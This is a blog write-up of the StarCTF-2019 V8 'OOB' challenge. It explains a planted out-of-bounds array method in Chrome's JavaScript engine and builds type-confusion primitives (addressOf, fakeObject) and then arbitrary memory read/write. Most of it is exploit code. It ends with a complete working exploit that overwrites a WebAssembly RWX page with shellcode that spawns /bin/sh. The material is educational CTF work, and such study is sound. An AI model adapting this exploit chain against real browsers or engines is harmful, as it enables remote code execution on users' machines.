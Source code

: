 ```yaml
---
title: V8 OOB
date: 2021-10-01 10:22:19
tags: v8
layout: post
---
```

Curt write up for a classic challenge V8-OOB
<!--more-->
# What's OOB

OOB is a challenge on StarCTF-2019. It's a basic but classical one.

# Basic for JS

V8 is an open source engine for JavaScript which is implemented in Chrome.

There are several passages for setting up the environment, learning some basic knowledge for about the JavaScript and V8.

* V8 Compiling

[V8 env](https://mem2019.github.io/jekyll/update/2019/07/18/V8-Env-Config.html)

* object's structure

[Fast properties in V8](https://v8.dev/blog/fast-properties)

* oob
[oob](https://www.freebuf.com/vuls/203721.html)

# OOB

The challenge gives a diff file to implement a vulnerability. 

```bash
git apply < oob.diff
```

The diff file adds a vulnerable method. In short, `array.oob()` would return `array[array.length]`  and `array.oob(x)` would set `array[array.length] =x` . As we all know, the subscript of an n-element-array is [0,n-1]. There for we could read and write the data out of the array. In V8, according to the structure of the object, it's the map of the object. 

So what can we do if we could read and modify any object's map? Yes, we can confuse the type explaining of the object. If we take an array of floats as an array of objects, we could read the address of the object while taking an array of objects as an array of floats, it would create a fake object. That's what we could exploit from OOB. 

# `addressOf` and `fakeObject`

More specifically, we could use `oob()` to get the map of float array and object array.

```jsx
var obj = [a:"a"];
var obj_array = [obj];
var float_array = [1.1];
// map_of_obj_array & map_of_float_array 
var mo = obj_array.oob();
var mf = float_array.oob();
```

And we could modify the map of an object to perform `addressOf` and `fakeObject`.

```jsx
function addressOf(obj)
{
	obj_array[0] = obj;
	obj_array.oob(mf);
	let res = f2i(obj_array[0])-1n;
	obj_array.oob(mo);
	return res;
}
function fakeObject(address)
{
	float_array[0] = i2f(address+1n);
	float_array.oob(mo);
	let res = float_array[0];
	float_array.oob(mf);
	return res;
}
```

- i2f is a function converts big `unsigned int` to `float`.
- f2i is a function converts float to `big` unsigned `int`.
- you can find it in [cheatsheet](https://n132.github.io/cheatsheet/)

# `aar` and `aaw`

We could conduct `aar(arbitrary address read)` and `aaw(arbitrary address write)` functions from `addressOf` and `fakeObject`. By faking a float array and modifying its element.

```jsx
var tmp = [1.1,1.1,1.1,1.1];
var mt = tmp.oob();
var fake = [mt,i2f(0n),i2f(0n),i2f(0x400000000n),1.1,1.1];
var fake_obj = fakeObject(addressOf(fake)-0x30n);
function aar(address)
{
	fake[2] = i2f(address-0xfn);
	return f2i(fake_obj[0]);
}
function aaw(address,value)
{
	fake[2] = i2f(address-0xfn);
	fake_obj[0] = i2f(value);
}
```

Now we can read and write arbitrary address in the memory. 

# Get shell

1. search in the memory to find some useful address→ get libc-base address → hijack hooks → get shell
2.  find some useful address in array.map.constructor.code.
3. `Web asm`, [https://wasdk.github.io/WasmFiddle/](https://wasdk.github.io/WasmFiddle/), find the rwx page in `wasmInstance.exports.main()` and modify the content to run our shellcode.

# EXP(Wasm)

```jsx
var _b = new ArrayBuffer(16);
var _f = new Float64Array(_b);
var _i = new BigUint64Array(_b);
function f2i(f)
{
	_f[0] = f;
	return _i[0];
}
function i2f(i)
{
	_i[0] = i;
	return _f[0];
}
function hex(i)
{
	return "0x"+i.toString(16).padStart(16,"0");
}

var obj = {a:"a"};
var oa = [obj];
var fa = [1.1]
var mo = oa.oob();
var mf = fa.oob();

function addressOf(obj)
{
	oa[0]= obj;
	oa.oob(mf);
	let res = f2i(oa[0])-1n;
	oa.oob(mo);
	return res;
}
function fakeObj(address)
{
	fa[0] = i2f(address+1n);
	fa.oob(mo);
	let res = fa[0];
	fa.oob(mf);
	return res;
}
var c = [1.1,1.1,1.1,1.1]
var mc = c.oob(); 
var fake = [
mc,
i2f(0n),
i2f(0n),
i2f(0x1000000000n),
1.1,
2.2
]
var faker = fakeObj(addressOf(fake)-0x30n);


function aar(addr)
{
	fake[2] = i2f(addr-0xfn);
	return f2i(faker[0]);
}
function aaw(addr,val)
{
	fake[2] = i2f(addr-0xfn);
	faker[0] = i2f(val);
}


var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f= wasmInstance.exports.main;
var shell = [0xf631483bb0c03148n, 0x69622fbf48d23148n, 0x8948570068732f6en,0x50fe7n];
var tmp = aar(addressOf(f)+0x18n)-1n;
tmp = aar(tmp+8n)-1n;
tmp = aar(tmp+0x10n)-1n
tmp = aar(tmp+0x88n)
var buf =new ArrayBuffer(shell.length*8);
aaw(addressOf(buf)+0x20n,tmp);
var v =new DataView(buf);
for(let i=0;i<shell.length;i++){
	v.setFloat64(i*8,i2f(shell[i]),true);
}
f();

//%DebugPrint(f);
//%SystemBreak();
```